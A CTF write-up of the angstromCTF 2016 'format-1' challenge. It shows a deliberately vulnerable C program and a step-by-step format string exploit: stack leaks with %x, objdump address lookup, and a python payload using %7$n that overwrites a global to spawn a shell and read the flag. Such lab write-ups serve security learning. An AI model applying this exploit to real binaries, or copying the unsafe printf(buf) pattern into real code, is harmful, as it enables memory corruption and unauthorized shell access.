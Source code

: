 # format-1

Disclaimer : Writup by z0rex, https://github.com/VulnHub/ctf-writeups/blob/master/2016/angstrom-ctf/format-1.md
Description: ```This program is vulnerable to a format string attack! Try supplying a format string to overwrite a global variable and get a shell! You can exploit the binary on our shell server at /problems/format1/. Download the binary here, and source code is available here```

Ok, the challenge gave us a source code :
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int secret = 0;

void give_shell()
{
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}

int main(int argc, char **argv)
{
    char buf[128];
    memset(buf, 0, sizeof(buf));
    fgets(buf, 128, stdin);
    printf(buf);

    if (secret == 192)
    {
        give_shell();
    }
    else
    {
        printf("Sorry, secret = %d\n", secret);
    }

    return 0;
}
```

As we can see, there is a function called ```give_shell()``` to give us what we want.
Next, i try to analize the source code.
```
int secret = 0;
.
.
.
if (secret == 192)
    {
        give_shell();
    }
    else
    {
        printf("Sorry, secret = %d\n", secret);
    }
 ...
```
In order to call the ```give_shell()``` function, one must set ```int secret``` value to 192, but the source code doesn't seem have an intstruction to do that. Again, i analize the program.
```
    char buf[128];
    memset(buf, 0, sizeof(buf));
    fgets(buf, 128, stdin);
    printf(buf); <----------------- Vulnerable
```
It seems that someone forgot to specify the output type, a ```printf``` like this is vulnerable to ```Format String Exploitation```.

First lets try to run it :
```
blaccmail@localhost:~$ ./format.exe
ayy 
ayy
Sorry, secret = 0
blaccmail@localhost:~$ 
```
To Exploit the program we need :
```
-> Trigger give_shell()
-> Know the buf index
-> Know the address to write ('secret' address)
-> Know what to write a.k.a the exploit
```
To find the buf index, we need to leak the program memory by using ```%x``` printf argument :
```
blaccmail@localhost:~$ python -c "print 'A'*4 + '-%x-%x-%x-%x-%x-%x-%x-%x'" | ./format.exe
AAAA-80-f7785580-ffb064f4-ffb063fe-1-c2-41414141
Sorry, secret = 0
blaccmail@localhost:~$
```
Looks like the string placed in index 7.

Then we need to find 'secret' address to change its value. We can use ```objdump``` command :
```
blaccmail@localhost:~$ objdump -t format.exe | grep secret
0804a040 g     O .bss   00000004              secret
blaccmail@localhost:~$ 
```

Great! we have found all the things we need, now we can craft our exploit :
```
-------------------------------------------------------------
python -c "print '\x40\xa0\x04\x08%188x%7$n'" | ./format.exe
-------------------------------------------------------------
-> \x40\xa0\x04\x08 : 4bit 'secret' address
-> %188x            : 188bit junk value (4+188 = 192 wich is exact value to trigger give_shell())
-> %7$n             : index & shell
```

Now, lets try that :
```
blaccmail@localhost:~$ python -c "print '\x40\xa0\x04\x08%188x%7$n'" | ./format.exe
@�                                                                                                                                                                                          80
sh-4.3# exit
blaccmail@localhost:~$ 
```

Yes! we got it, then move on to the real thing and then cat the flag :
```
cat flag.txt
[2]+  Stopped                 ( python2 -c 'print "\x40\xa0\x04\x08%188x%7$n"'; cat ) | ./format1
team24254@shell:/problems/format1$ is_%n_used_for_anything_besides_this
```
# Flag : {is_%n_used_for_anything_besides_this}
